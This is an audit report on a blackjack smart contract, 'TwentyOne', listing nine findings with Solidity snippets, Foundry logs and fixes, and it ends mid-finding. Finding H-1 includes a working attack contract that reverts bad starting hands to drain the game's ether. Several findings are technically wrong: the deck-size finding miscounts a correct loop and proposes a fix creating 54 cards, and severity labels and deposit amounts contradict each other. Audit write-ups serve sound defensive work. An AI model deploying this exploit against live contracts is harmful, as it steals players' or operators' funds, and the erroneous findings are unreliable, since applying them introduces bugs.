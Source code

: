 <!DOCTYPE html>
<html>
<head>
<style>
    .full-page {
        width:  100%;
        height:  100vh; /* This will make the div take up the full viewport height */
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
    .full-page img {
        max-width:  200;
        max-height:  200;
        margin-bottom: 5rem;
    }
    .full-page div{
        display: flex;
        flex-direction: column;
        justify-content: center;
        align-items: center;
    }
</style>
</head>
<body>

<div class="full-page">
    <img src="/Users/alexgray/Desktop/Solidity/code-hawks/2024-11-giving-thanks/@audit/audit-report/logo.pdf" alt="Logo">
    <div>
    <h1>First Flight N29 TwentyOne</h1>
    <h3>Prepared by: 0xKoiner</h3>
    </div>
</div>

</body>
</html>

# First Flight N29 TwentyOne

Prepared by: 0xKoiner
Lead Auditors: 0xKoiner

- [0xKoiner] (#https://twitter.com/0xKoiner)

Assisting Auditors:

- None

# Table of contents

<details>

<summary>See table</summary>

- [First Flight N29 TwentyOne Audit Report](#First-Flight-N29-TwentyOne-Audit-Report)
- [Table of contents](#table-of-contents)
- [About 0xKoiner](#about-0xKoiner)
- [Disclaimer](#disclaimer)
- [Risk Classification](#risk-classification)
- [Audit Details](#audit-details)
  - [Scope](#scope)
- [Protocol Summary](#protocol-summary)
  - [Roles](#roles)
- [Executive Summary](#executive-summary)
  - [Issues found](#issues-found)
- [Findings](#findings)
  - [High](#high)
    - [\[H-1\] Manipulation of startGame() Return Value in TwentyOne.sol`](<#h-1-Manipulation-of-startGame()-Return-Value-in-TwentyOne.sol>)
    - [\[H-2\] Improper Handling of Ace Cards](#h-2-Improper-Handling-of-Ace-Cards)
  - [Medium](#medium)
    - [\[M-1\] Contract Lacks Mechanism to Initialize or Deposit Ether](#m-1-Contract-Lacks-Mechanism-to-Initialize-or-Deposit-Ether)
    - [\[M-2\] Contract Lacks Sufficient Ether to Handle Game Logic and Payouts`](#m-2-Contract-Lacks-Sufficient-Ether-to-Handle-Game-Logic-and-Payouts)
    - [\[M-3\] Incorrect Card Deck Initialization in initializeDeck Function](#m-3-Incorrect-Card-Deck-Initialization-in-initializeDeck-Function)
  - [Low](#low)
    - [\[L-1\] block.prevrandao Can Be Used Only From Solidity Version 0.8.18`](#l-1-block.prevrandao-Can-Be-Used-Only-From-Solidity-Version-0.8.18)
    - [\[L-2\] CASINO Address Lacks Initial Balance for Ether Transfer`](#l-2-CASINO-Address-Lacks-Initial-Balance-for-Ether-Transfer)
    - [\[L-3\] Excess Ether Sent by Player Causes Unfair Loss in Winnings`](#l-3-Excess-Ether-Sent-by-Player-Causes-Unfair-Loss-in-Winnings)
    - [\[L-4\] Potential Bias in Dealer Behavior Due to Stand Threshold Logic in call() Function](<#l-4-Potential-Bias-in-Dealer-Behavior-Due-to-Stand-Threshold-Logic-in-call()-Function>)
    </details>
    </br>

# About OxKoiner

Hi, I’m OxKoiner, a developer and smart contract auditor based in sunny Barcelona. My journey in the crypto industry started back in 2016, and it’s been an exciting ride ever since. With a background in Computer Science from the Technion (Israel Institute of Technology), I’ve built up a versatile skill set that spans Python development and smart contract security.

My Experience
Python Development
I have a solid background in Python, focusing on backend development, software automation, testing, and Web3 libraries. I enjoy building tools and solutions that help simplify complex problems, and I’m always looking for new ways to streamline workflows and processes.

Solidity & Smart Contract Development
I’m a junior Solidity developer with a growing passion for low-level aspects of Ethereum development, including OpCodes, Huff, and Assembly. I love diving into the details of smart contract design, aiming to write clean, efficient, and secure code. I’m still learning every day, but I enjoy the challenge of constantly improving.

Auditing & Security
I’ve completed several courses focused on smart contract audits and enjoy the process of analyzing code for potential vulnerabilities. My toolkit includes:

Foundry & HardHat: For testing and development.
Slither & Aderyn: For static analysis and finding common issues.
Certora: For formal verification to ensure contract safety.
I take a careful, methodical approach when auditing, trying to catch even the smallest issues that could become big problems. I believe every audit is a chance to learn and help make the Web3 space a bit safer.

My Approach
I’m motivated by a genuine interest in blockchain technology and its potential to bring about positive change. I’m not an expert in everything, but I’m always eager to learn and collaborate with others. If you’re working on an interesting project or need a fresh set of eyes for an audit, I’d love to connect and see how I can help.

Let’s build something great together!

# Disclaimer

The OxKoiner team has made every effort to identify potential vulnerabilities within the time allocated for this audit. However, we do not assume responsibility for the findings or any issues that may arise after the audit. This security audit is not an endorsement of the project’s business model, product, or team. The audit was time-limited and focused exclusively on assessing the security of the Solidity code implementation. It is strongly recommended that additional testing and security measures be conducted by the project team.

# Risk Classification

|            |        | Impact |        |     |
| ---------- | ------ | ------ | ------ | --- |
|            |        | High   | Medium | Low |
|            | High   | H      | H/M    | M   |
| Likelihood | Medium | H/M    | M      | M/L |
|            | Low    | M      | M/L    | L   |

## Scope

```
All Contracts in `src` are in scope.

src/
└── TwentyOne.sol
```

# Protocol Summary

The "TwentyOne" protocol is a smart contract implementation of the classic blackjack card game, where users can wager 1 ETH to participate with a chance to double their money!

## Roles

- Player: The user who interacts with the contract to start and play a game. A player must deposit 1 ETH to play, with a maximum payout of 2 ETH upon winning.
- Dealer: The virtual counterpart managed by the smart contract. The dealer draws cards based on game logic.

# Executive Summary

## Issues found

| Severity | Number of issues found |
| -------- | ---------------------- |
| High     | 2                      |
| Medium   | 3                      |
| Low      | 4                      |
| Total    | 9                      |

# Findings

## High

### [H-1] Manipulation of startGame() Return Value in TwentyOne.sol

\_Submitted by [0xKoiner](#https://twitter.com/0xKoiner)

## Summary

The `startGame()` function in the `TwentyOne.sol` contract returns the player’s initial hand value as a `uint256`. This allows attackers to manipulate gameplay by reverting unfavorable transactions, ensuring they proceed only with advantageous hands. By using a custom attack contract, an attacker can drain the contract's funds with minimal loss.

## Vulnerability Details

## Root Cause

The vulnerability lies in the `startGame()` function, which exposes sensitive game state information (the player's initial hand value) as its return value. This design flaw enables attackers to evaluate the returned value and selectively revert transactions for unfavorable outcomes.

### Exploitation Process

1. **Initialization:**\
   The attacker deploys and funds a malicious contract, `AttackTwentyOne.sol`, which interacts with the `TwentyOne.sol` contract.
2. **Selective Execution:**\
   The attack contract calls `startGame()`, checks the returned hand value (`playerHand`), and reverts if the value is below a predefined threshold (e.g., 20).
3. **Guaranteed Advantage:**\
   Transactions only proceed if the attacker’s hand value is sufficiently high, ensuring a disproportionately high winning probability.
4. **Drain Contract:**\
   The attacker continues exploiting until the target contract’s balance is depleted.

### Vulnerable Code

The issue is in the `startGame()` function of `TwentyOne.sol`:

```solidity
function startGame() public payable returns (uint256) {
    require(
        address(this).balance >= 2 ether,
        "Not enough ether on contract to start game"
    );
    address player = msg.sender;
    require(msg.value == 1 ether, "start game only with 1 ether");

    initializeDeck(player);

    uint256 card1 = drawCard(player);
    uint256 card2 = drawCard(player);
    addCardForPlayer(player, card1);
    addCardForPlayer(player, card2);
    return playersHand(player); // Exposes game state
}
```

## Impact

## Exploitation Results

1. **Win Rate:** The attack enables the attacker to win with an artificially high probability.
2. **Drain Speed:** The contract balance can be drained in approximately **1,500–2,000 calls**, depending on the balance and win conditions.
3. **Gas Costs:** The attack incurs approximately **1,339,241 gas units** per reverted transaction, which is minimal compared to the contract's drained value.

## Tools Used

1. **Solidity Programming:** To analyze and manipulate the contract logic.
2. **Foundry Framework:** For contract deployment, testing, and debugging.
3. **Python Script:** To automate repeated calls for exploiting the vulnerability.

## POC

## **Attack Contract (`AttackTwentyOne.sol`)**

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract AttackTwentyOne {
    error AttackTwentyOne__FailedCallStartGame();
    error AttackTwentyOne__FailedCallToCall();
    error AttackTwentyOne__RevertLessThen20(uint256 playerHand);

    uint256 private s_playerHand;
    uint256 private constant MAX_PLAYER_HAND = 20;
    address private immutable i_owner;
    address payable immutable i_twentyOneContract;

    constructor(address _twentyOneContract, address _owner) {
        i_twentyOneContract = payable(_twentyOneContract);
        i_owner = _owner;
    }

    receive() external payable {}

    function callTostartGameAndCall() external {
        (bool success, bytes memory data) = i_twentyOneContract.call{
            value: 1 ether
        }(abi.encodeWithSignature("startGame()"));

        if (!success) {
            revert AttackTwentyOne__FailedCallStartGame();
        }

        s_playerHand = abi.decode(data, (uint256));

        if (s_playerHand < MAX_PLAYER_HAND) {
            revert AttackTwentyOne__RevertLessThen20(s_playerHand);
        }

        (bool success2, ) = i_twentyOneContract.call(
            abi.encodeWithSignature("call()")
        );
        if (!success2) {
            revert AttackTwentyOne__FailedCallToCall();
        }
    }

    function withdrawAll() external {
        require(msg.sender == i_owner, "Not Owner");
        payable(i_owner).transfer(address(this).balance);
    }
}
```

## Testing Process

1. **Deployment:**

   - `TwentyOne.sol` deployed with an initial balance of 20 ETH.
   - `AttackTwentyOne.sol` deployed with an additional 2 ETH for gas and gameplay funding.

2. **Execution:**

   - Repeatedly called `callTostartGameAndCall()` using the attack contract.
   - Observed selective transaction reverts for unfavorable outcomes.
   - Contract balance depleted after \~1,800 calls.

## Recommendations

### Proposed Fix

The `startGame()` function should not return the player’s initial hand value, preventing attackers from accessing game state information during the initialization phase.

#### Fixed Code:

```solidity
function startGame() public payable {
    require(
        address(this).balance >= 2 ether,
        "Not enough ether on contract to start game"
    );
    address player = msg.sender;
    require(msg.value == 1 ether, "start game only with 1 ether");

    initializeDeck(player);

    uint256 card1 = drawCard(player);
    uint256 card2 = drawCard(player);
    addCardForPlayer(player, card1);
    addCardForPlayer(player, card2);
}
```

### Impact of Fix

Removing the return value eliminates the ability to selectively revert transactions based on the initial hand, closing the exploit vector.

---

## Conclusion

This report demonstrates a critical vulnerability in `TwentyOne.sol` that enables an attacker to manipulate gameplay and drain the contract’s balance. The proposed fix mitigates this issue by removing sensitive game state exposure during the `startGame()` phase. Immediate action is recommended to deploy the fix and secure funds in the contract.

### [H-2] Improper Handling of Ace Cards

\_Submitted by [0xKoiner](#https://twitter.com/0xKoiner)

# Summary

In the `TwentyOne.sol` Blackjack smart contract, the handling of Ace cards (which can be worth either 1 or 11 points) is not properly implemented in both the player's and the dealer's hand calculations. This issue leads to incorrect game logic, potentially resulting in faulty game outcomes. The logic for the dealer's hand also lacked proper handling for the Ace, which may cause inconsistent game results.

# Vulnerability Details

The vulnerability lies in the improper handling of Ace cards, a crucial aspect of Blackjack game rules. In the original code:

- **For the player’s hand (`playersHand` function):** Aces are treated as 10, which is incorrect. Aces should be treated as 1 initially, and if the total hand value allows, an Ace should be counted as 11.
- **For the dealer’s hand (`dealersHand` function):** Aces are not properly accounted for in the hand's total value, and the dealer’s hand calculation logic is inconsistent with the player’s hand calculation.

The issue can cause incorrect total calculations for both the player and the dealer, affecting the outcome of the game. A player might think they have a valid total, but the game may incorrectly register their hand, leading to undesired consequences.

### Code Fragment from the Original Implementation:

**Player's Hand Logic:**

```solidity
    if (cardValue == 0 || cardValue >= 10) {
        playerTotal += 10;
    }
```

Dealer's Hand Logic:

```solidity
    if (cardValue >= 10) {
        dealerTotal += 10;
    }
```

### Problems:

1. **Player's hand:** Aces are treated as 10, which can mislead the player into thinking their hand is better or worse than it really is.
2. **Dealer's hand:** Aces are not handled at all. The dealer’s total could be incorrectly calculated, which could affect the final outcome of the game.

## Impact

- **Incorrect Card Values:** Aces are treated incorrectly, potentially causing incorrect totals for both the player and the dealer.
- **Faulty Game Outcomes:** The mismatch in hand totals can lead to an unfair game where either the player or the dealer might win or lose incorrectly.
- **Player Experience:** The player might receive incorrect feedback (such as winning or losing), as their hand total is not calculated correctly.
- **Smart Contract Integrity:** If not addressed, this flaw could undermine the trust in the smart contract, leading to disputes or manipulation of the game logic.

# Tools Used

- **Manual Code Review:** The code was manually reviewed for logical errors related to the handling of card values, especially Aces.

# Recommendations

The issue can be resolved by fixing the Ace-handling logic in both the `playersHand` and `dealersHand` functions. This will ensure that Aces are treated as either 1 or 11 depending on the context, thus adhering to the correct rules of Blackjack.

### Code Fix for `playersHand`:

```solidity
function playersHand(address player) public view returns (uint256) {
    uint256 playerTotal = 0;
    uint256 acesCount = 0; // To track how many aces are present

    for (uint256 i = 0; i < playersDeck[player].playersCards.length; i++) {
        uint256 cardValue = playersDeck[player].playersCards[i] % 13;

        if (cardValue == 0) {
            playerTotal += 1; // Treat Ace as 1 initially
            acesCount++; // Count the Ace
        } else if (cardValue >= 10) {
            playerTotal += 10; // Face cards (Jack, Queen, King) count as 10
        } else {
            playerTotal += cardValue; // Other cards are their face value
        }
    }

    // If there are Aces, and the total is 11 or less, add 10 to the total (Ace as 11)
    if (acesCount > 0 && playerTotal <= 11) {
        playerTotal += 10;
    }

    return playerTotal;
}
```

### Code Fix for `dealersHand`:

```solidity
function dealersHand(address player) public view returns (uint256) {
    uint256 dealerTotal = 0;
    uint256 acesCount = 0; // To track how many aces are present

    for (uint256 i = 0; i < dealersDeck[player].dealersCards.length; i++) {
        uint256 cardValue = dealersDeck[player].dealersCards[i] % 13;

        if (cardValue == 0) {
            dealerTotal += 1; // Treat Ace as 1 initially
            acesCount++; // Count the Ace
        } else if (cardValue >= 10) {
            dealerTotal += 10; // Face cards (Jack, Queen, King) count as 10
        } else {
            dealerTotal += cardValue; // Other cards are their face value
        }
    }

    // If there are Aces, and the total is 11 or less, add 10 to the total (Ace as 11)
    if (acesCount > 0 && dealerTotal <= 11) {
        dealerTotal += 10;
    }

    return dealerTotal;
}
```

## Medium

### [M-1]. Contract Lacks Mechanism to Initialize or Deposit Ether

\_Submitted by [0xKoiner](#https://twitter.com/0xKoiner)

## Summary

The `TwentyOne` contract lacks a mechanism to initialize with Ether or allow subsequent deposits. As a result, the contract starts with a zero balance upon deployment, which creates a critical issue for gameplay: when a user deposits 1 Ether to start a game, and if they win, the contract cannot pay out the promised 2 Ether due to insufficient funds.

To address this, the following solutions are proposed:

1. Introduce a `payable` constructor to allow the deployer to fund the contract at the time of deployment.
2. Add a `receive()` function to enable the contract to accept Ether deposits from other wallets during its lifecycle.

This is categorized as **High Severity**, as it prevents the core functionality of the game.

## Vulnerability Details

1. **Root Cause**

   - The contract is deployed with a zero balance because it does not provide a mechanism for the deployer or any external wallet to deposit Ether.
   - The `startGame` function requires the user to deposit 1 Ether, but the contract must already have sufficient funds to cover a potential payout of 2 Ether if the user wins.
   - Without an initial balance or the ability to deposit additional funds, the contract is unable to fulfill its payout obligations.

2. **Affected Code**\
   The contract lacks both a `payable` constructor and a `receive()` function:

```solidity
constructor() { // No way to initialize the contract with Ether }
```

1. **Behavior**

   - **Deployment Issue:** The contract is deployed with a balance of zero Ether.
   - **Gameplay Disruption:** Users deposit 1 Ether to play the game but cannot receive the promised payout of 2 Ether due to the contract's insufficient balance.
   - **Lack of Flexibility:** The deployer cannot top up the contract balance post-deployment, further exacerbating the problem.

## Impact

This vulnerability blocks the functionality of the `TwentyOne` contract and compromises the user experience. Without sufficient Ether in the contract:

- Users cannot play the game or receive payouts, leading to a failed contract.
- The deployer has no mechanism to address the issue by adding funds.

## Tools Used

- **Static Code Analysis:** Identified the absence of mechanisms to initialize or deposit Ether.
- **Deployment Testing:** Verified that the contract is deployed with zero Ether.
- **Simulation:** Tested game payouts with insufficient contract balance.

## Recommendations

### Solution 1: Add a `Payable` Constructor

Modify the contract to include a `payable` constructor. This allows the deployer to provide an initial balance during deployment. Example:

```solidity
constructor() payable { // Optionally handle the initial balance }
```

### Solution 2: Add a `receive()` Function

Include a `receive()` function to allow the contract to accept Ether deposits at any time:

```solidity
receive() external payable { // Optionally log deposits or perform actions }
```

### Revised Contract

Below is the updated contract with the proposed changes:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract TwentyOne {
    // ... (existing code)

    // Payable constructor for initial funding
    constructor() payable {}

    // Receive function to accept deposits
    receive() external payable {
        // Optional: Emit event for received funds
    }

    // ... (existing code)
}
```

## Testing and Validation

1. **Deployment:** Deploy the updated contract using the following command to provide an initial balance:

```bash
forge create --value 10ether path/to/TwentyOne.sol:TwentyOne --private-key <deployer_private_key>
```

2. **Ether Transfer:** Use a wallet or script to send Ether to the contract and confirm it is accepted:

```solidity
(bool success, ) = payable(address(twentyOne)).call{value: 5 ether}("");
require(success, "Ether transfer failed");
```

3. **Payout Testing:** Verify that the game can handle payouts after deployment with sufficient initial balance.

### [M-2] Contract Lacks Sufficient Ether to Handle Game Logic and Payouts

\_Submitted by [0xKoiner](#https://twitter.com/0xKoiner)

## Summary

The contract fails to process player winnings due to insufficient funds in the contract when the player wins. The test `test_Call_PlayerWins()` fails because the contract is deployed without enough ether to process the payout. The error occurs when the contract attempts to transfer 2 ether to the winning player but lacks the necessary balance.

## Vulnerability details

When running the test `test_Call_PlayerWins()`, the following error occurs:

```bash
[FAIL: EvmError: Revert] test_Call_PlayerWins() (gas: 1450168)
Logs:
  player1:  0x0000000000000000000000000000000000000123
  twentyOne balance:  0
  contract balance:  1000000000000000000
  initialPlayerBalance:  9000000000000000000

Traces:
  [705494] TwentyOneTest::setUp()
    ├─ [659863] → new TwentyOne@0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f
    │   └─ ← [Return] 3296 bytes of code
    ├─ [0] VM::deal(0x0000000000000000000000000000000000000123, 10000000000000000000 [1e19])
    │   └─ ← [Return]
    ├─ [0] VM::deal(0x0000000000000000000000000000000000000456, 10000000000000000000 [1e19])
    │   └─ ← [Return]
    └─ ← [Stop]

  [1450168] TwentyOneTest::test_Call_PlayerWins()
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000123)
    │   └─ ← [Return]
    ├─ [0] console::log("player1: ", 0x0000000000000000000000000000000000000123) [staticcall]
    │   └─ ← [Stop]
    ├─ [0] console::log("twentyOne balance: ", 0) [staticcall]
    │   └─ ← [Stop]
    ├─ [346] TwentyOne::startGame{value: 1000000000000000000}()
    │   └─ ← [Revert] revert: Not enough ether on contract to start game
    └─ ← [Revert] revert: Not enough ether on contract to start game
```

The contract balance is shown as 0 when it attempts to start the game. The following line of code in the `startGame()`function causes the revert when trying to transfer 2 ether to the winner:

```solidity
payable(player).transfer(2 ether); // Transfer the prize to the player
```

Error Output:

```bash
[FAIL: EvmError: Revert] test_Call_PlayerWins() (gas: 1450168)
Logs:
  twentyOne balance:  0
  contract balance:  1000000000000000000 [1 ether]
  initialPlayerBalance:  9000000000000000000 [9 ether]

Traces:
  [1450168] TwentyOneTest::test_Call_PlayerWins()
    ├─ [0] VM::startPrank(0x0000000000000000000000000000000000000123)
    │   └─ ← [Return]
    ├─ [0] console::log("twentyOne balance: ", 0) [staticcall]
    │   └─ ← [Stop]
    ├─ [346] TwentyOne::startGame{value: 1000000000000000000}()
    │   └─ ← [Revert] revert: Not enough ether on contract to start game
    └─ ← [Revert] revert: Not enough ether on contract to start game
```

The revert happens because there is not enough ether in the contract to cover the payout of 2 ether.

## Impact

- **Loss of Player's Deposit:** Since the contract has insufficient funds to cover the payout of 2 ether, the player may lose their 1 ether deposit if the game cannot proceed as expected.
- **Unreliable Game Logic:** The game logic will fail if the contract does not have enough ether to continue the game, leading to inconsistent behavior.
- **Failed Transactions:** The contract cannot process winnings, which makes the entire contract unusable for players who expect to receive a payout upon winning.

To summarize, players may lose their 1 ether deposit without being able to play or receive winnings due to the contract balance being insufficient. This issue leads to a poor user experience and a loss of trust in the contract's ability to function correctly.

## Tools Used

- **Forge (Foundry):** Used to compile and run the tests.
- **Solidity:** The smart contract is written in Solidity, which is responsible for handling the game's logic and ether transfers.
- **EVM Error Logs:** The error log output generated by Forge during test execution, showing the failed transaction and revert reason.

## Recommended mitigation

1. **Deploy Contract with Sufficient Ether:** Ensure that the contract is deployed with an initial balance of at least 2 ether to cover the player payout when the game starts. You can require this in the constructor:

```solidity
constructor() payable {
    require(msg.value >= 1 ether, "Contract must be deployed with at least 1 ether");
}
```

2. **Add `receive()` Function:** Allow the contract to accept ether deposits after deployment. This can be done by adding a `receive()` function to ensure the contract can accept ether and maintain a sufficient balance:

```solidity
receive() external payable {}
```

3. **Balance Check in `startGame()`:** Implement a check in the `startGame()` function to ensure that the contract has enough ether to process the winnings. This will prevent the game from starting unless there is at least 2 ether in the contract:

```solidity
function startGame() public payable returns (uint256) {
    require(address(this).balance >= 2 ether, "Not enough ether on contract to start game");
    // Continue game logic...
}
```

4. **Test Contract Behavior:** Ensure thorough testing of the contract under different conditions, including cases where ether is deposited after deployment, to verify that the game can proceed and payouts are correctly handled.

## [M-3] Incorrect Card Deck Initialization in initializeDeck Function

\_Submitted by [0xKoiner](#https://twitter.com/0xKoiner)

## Summary

The `initializeDeck(address player)` function is intended to initialize a deck of 52 cards for the player, as required by the rules of the game. However, due to an off-by-one error in the loop, the deck is initialized with only 50 cards instead of 52. This deviation from the standard 52-card deck compromises the integrity of the game logic and fairness. The issue arises from starting the loop at `i = 1` and iterating up to `i <= 52`.

## Vulnerability Details

The `initializeDeck` function is defined as follows:

```solidity
function initializeDeck(address player) internal {
    require(
        availableCards[player].length == 0,
        "Player's deck is already initialized"
    );
    for (uint256 i = 1; i <= 52; i++) {
        availableCards[player].push(i);
    }
}
```

This logic should populate the `availableCards` array with integers from 1 to 52, representing a standard deck of cards. However, the actual array length ends up being only 50 cards due to a miscalculation in the loop. As a result, the game operates with an incomplete deck, potentially leading to unexpected behaviors during gameplay.

## Observed Behavior

A test case was written to examine the initialized deck:

```solidity
function testUserLossingWithHitFunction() public {
    vm.startPrank(player1);
    uint256 twoCards = twentyOne.startGame{value: 1 ether}();
    console.log("twoCards: ", twoCards);
    vm.stopPrank();
    uint256[] memory availablerCards = twentyOne.getAvailableCards(player1);
    console.log("availablerCards l: ", availablerCards.length);
}
```

Output:

```bash
Logs:
  twoCards:  14
  availablerCards l:  50
```

The deck's length is 50 instead of the expected 52 cards, confirming the issue in `initializeDeck`.

## Root Cause Analysis

The problem lies in the `for` loop:

```solidity
for (uint256 i = 1; i <= 52; i++) {
    availableCards[player].push(i);
}
```

The deck is initialized starting at `i = 1`, which is correct. However, due to an off-by-one error in iterating to `i <= 52`, only 50 cards are added instead of 52.

## Impact

1. **Incomplete Deck:**

   - The game operates with an incomplete deck of 50 cards instead of the standard 52-card deck.
   - This deviation can lead to unexpected outcomes in gameplay, such as fewer card combinations available for players and the dealer.

2. **Game Integrity Compromised:**

   - The issue undermines the fairness and consistency of the game, violating the standard rules of twenty-one.

3. **Potential for Exploitation:**

   - Savvy players might exploit the smaller deck size to calculate probabilities more effectively, gaining an unfair advantage.

## Tools Used

- **Forge (Foundry):** Used for deploying and testing the contract.
- **EVM Logs and Console Output:** Verified the actual length of the initialized deck using debug logs.
- **Manual Code Review:** Identified the off-by-one error in the loop.

## Recommendations

1. **Update the Loop in `initializeDeck`:** Replace the current loop in the `initializeDeck` function with the corrected version:

   ```Solidity
   for (uint256 i = 1; i <= 54; i++) {
       availableCards[player].push(i);
   }
   ```

2. **Test the Updated Logic:** Write additional test cases to confirm that the deck length is exactly 52 after initialization.

```solidity
function testDeckInitializationCorrectness() public {
    twentyOne.initializeDeck(player1);
    uint256[] memory availablerCards = twentyOne.getAvailableCards(player1);
    assertEq(availablerCards.length, 52, "Deck should contain 52 cards");
}
```

3. **Validate Gameplay Mechanics:** Verify other game functions, such as `hit()` or `stand()`, to ensure they correctly handle the updated deck.

4. **Comprehensive Audits:** Perform a full audit of game logic to identify and fix any other potential issues related to deck handling or game rules.

By addressing this issue, the game will align with the standard rules of twenty-one and provide a fair playing environment for all participants.

## Low

### [L-1] block.prevrandao Can Be Used Only From Solidity Version 0.8.18

\_Submitted by [0xKoiner](#https://twitter.com/0xKoiner)

## Summary

The `block.prevrandao` property, introduced in Solidity 0.8.18, allows contracts to access the randomness value derived from the previous block in the Ethereum Proof-of-Stake consensus mechanism. This feature is unavailable in versions earlier than 0.8.18.

In the provided code from `TwentyOne.sol`, the pragma directive specifies `pragma solidity ^0.8.13;`. Since `^0.8.13`allows versions ranging from 0.8.13 to less than 0.9.0, it cannot utilize the `block.prevrandao` property. Using this code with versions less than 0.8.18 will result in compilation errors.

## Vulnerability Details

1. **Root Cause**\
   The `block.prevrandao` property is not supported in Solidity versions earlier than 0.8.18. If the compiler version is set to a lower version, any attempt to access this property will result in a compilation error.
2. **Affected Code**\
   The following pragma directive in `TwentyOne.sol` is insufficient to guarantee compatibility with `block.prevrandao`:

```
pragma solidity ^0.8.13;
```

**Behavior**

- In Solidity versions **prior to 0.8.18**, using `block.prevrandao` will throw a compilation error:

```bash
Error: Member "prevrandao" not found or not visible after argument-dependent lookup in struct Block.
```

- In Solidity **0.8.18 and above**, `block.prevrandao` functions as expected.

Error of compiler with 0.8.13

```bash
Error: Compiler run failed:
Error (9582): Member "prevrandao" not found or not visible after argument-dependent lookup in block.
  --> src/TwentyOne.sol:77:63:
   |
77 |                 abi.encodePacked(block.timestamp, msg.sender, block.prevrandao)
   |                                                               ^^^^^^^^^^^^^^^^
```

## Impact

Using a Solidity version earlier than 0.8.18 with `block.prevrandao` will prevent the contract from compiling. This issue can result in:

- Delays in development or deployment.
- Misalignment with the intended Ethereum Proof-of-Stake mechanism.
- Potential developer oversight leading to functionality not working as expected.

## Tools Used

- **Static Analysis:** Verified Solidity version in `TwentyOne.sol` with a code review.
- **Solidity Documentation:** Referred to the official Solidity documentation.
- **Testing Environment:** Foundry

## Recommendations

1. **Update the Pragma Directive**\
   Update the Solidity pragma directive in `TwentyOne.sol` to ensure compatibility with `block.prevrandao`. Replace the following line:

```diff
- pragma solidity ^0.8.13;
```

```diff
+ pragma solidity ^0.8.18;
```

2. **Explicit Version Locking (Optional)**\
   To avoid version conflicts in environments with multiple compiler versions, use an explicit version instead of a range:

```diff
+ pragma solidity 0.8.18;
```

3. **Backward Compatibility Considerations**\
   If `block.prevrandao` is not strictly required, and you need backward compatibility with older versions, consider using alternative logic. Note that alternatives (e.g., `blockhash`) may not offer secure randomness and are not suitable in all contexts.

4. **Testing**\
   Recompile and redeploy the contract using Solidity 0.8.18 or later. Confirm that the usage of `block.prevrandao`behaves as expected.

### [L-2] CASINO Address Lacks Initial Balance for Ether Transfer

\_Submitted by [0xKoiner](#https://twitter.com/0xKoiner)

## Summary

In the provided script `TwentyOne.s.sol`, the `CASINO` address attempts to transfer Ether to the `TwentyOne` contract during the execution of the `run` function. However, as observed in the logs, the `CASINO` address has no balance, leading to an **OutOfFunds** error during the Ether transfer. This issue can be resolved by pre-funding the `CASINO` and `USER` addresses with an initial Ether balance and adjusting the transfer logic.

The proposed solution includes:

1. Using `vm.deal` to allocate Ether to the `CASINO` and `USER` addresses.
2. Switching to a low-level `call` for robust Ether transfer logic.

## Vulnerability Details

1. **Root Cause**\
   The `CASINO` address, defined as `address(1)`, does not have any Ether balance assigned during the script setup. Consequently, when it attempts to fund the `TwentyOne` contract, the transaction fails due to insufficient funds.

2. **Affected Code**\
   In the `run` function:

```solidity
function run() public {
    vm.prank(CASINO);
    console.log("Casino Balance: ", CASINO.balance);
    payable(address(twentyOne)).transfer(10 ether);
    console.log("Funded contract with 10 ether.");
}
```

3. **Behavior**

   - Without initial funding, the `CASINO` address cannot transfer Ether, resulting in a **Revert** during execution.
   - The script fails to simulate the intended funding behavior, blocking further testing or deployment.

## Impact

This issue prevents the simulation of Ether transfers to the `TwentyOne` contract, blocking development and testing workflows. The absence of initial funding for test accounts disrupts the intended functionality of the script.

## Tools Used

- **Foundry Script Execution:** Verified the failure during the `forge script` run.
- **Console Logging:** Monitored the `CASINO.balance` to confirm the absence of Ether.
- **Low-Level Call Testing:** Confirmed alternative approaches for robust transfer logic.

## Recommendations

### Solution 1: Assign Initial Ether Balance

Use the `vm.deal` function in the `setUp` method to assign a starting balance to both the `CASINO` and `USER` addresses. This ensures the addresses have sufficient Ether for subsequent operations. Update the `setUp` function as follows:

```solidity
uint256 STARTING_AMOUNT = 20 ether;

function setUp() public {
    // Deploy the TwentyOne contract
    twentyOne = new TwentyOne();
    console.log("TwentyOne contract deployed at:", address(twentyOne));
    vm.deal(CASINO, STARTING_AMOUNT);
    vm.deal(USER, STARTING_AMOUNT);
}
```

### Solution 2: Use Low-Level Call for Ether Transfer

Replace the `transfer` statement with a low-level `call` for robust error handling. This ensures that if the transfer fails for any reason, the script can continue execution or gracefully handle the failure. Update the `run` function as follows:

```solidity
function run() public {
    vm.prank(CASINO);
    console.log("Casino Balance: ", CASINO.balance);
    // Use low-level call for Ether transfer
    (bool success, ) = payable(address(twentyOne)).call{value: 10 ether}("");
    if (!success) {
        console.log("Ether transfer to TwentyOne contract failed.");
        return;
    }
    console.log("Funded contract with 10 ether.");
}
```

### Testing and Deployment

1. After implementing the above changes, run the script with `forge script` to confirm the absence of errors.
2. Ensure that the balances of `CASINO` and `USER` are sufficient before executing further test scenarios.
3. Use console logs to validate the Ether transfer.

### [L-3] Excess Ether Sent by Player Causes Unfair Loss in Winnings

\_Submitted by [0xKoiner](#https://twitter.com/0xKoiner)

## Summary

The contract allows players to send more than 1 ether to start the game, which violates the game’s intended betting logic. Players are supposed to bet exactly 1 ether and win 2 ether if they succeed. However, if a player sends more than 1 ether, they only win the hardcoded 2 ether, losing the excess ether sent. This inconsistency is due to the lack of a strict check on `msg.value` in the `startGame()` function.

## Vulnerability Details

The `startGame()` function does not enforce a condition that ensures the player sends exactly 1 ether. The function logic accepts any amount greater than or equal to 1 ether. This behavior is evident in the following code snippet:

```solidity
function startGame() public payable returns (uint256) {
    address player = msg.sender;
    require(msg.value >= 1 ether, "not enough ether sent");
    initializeDeck(player);
    uint256 card1 = drawCard(player);
    uint256 card2 = drawCard(player);
    addCardForPlayer(player, card1);
    addCardForPlayer(player, card2);
    return playersHand(player);
}

```

As a result, players can start the game with more than 1 ether, but the `endGame()` function is hardcoded to transfer only 2 ether as winnings. This leads to a situation where the player loses the excess amount they sent.

## Test Case Output

The issue was replicated with the following test case:

```solidity
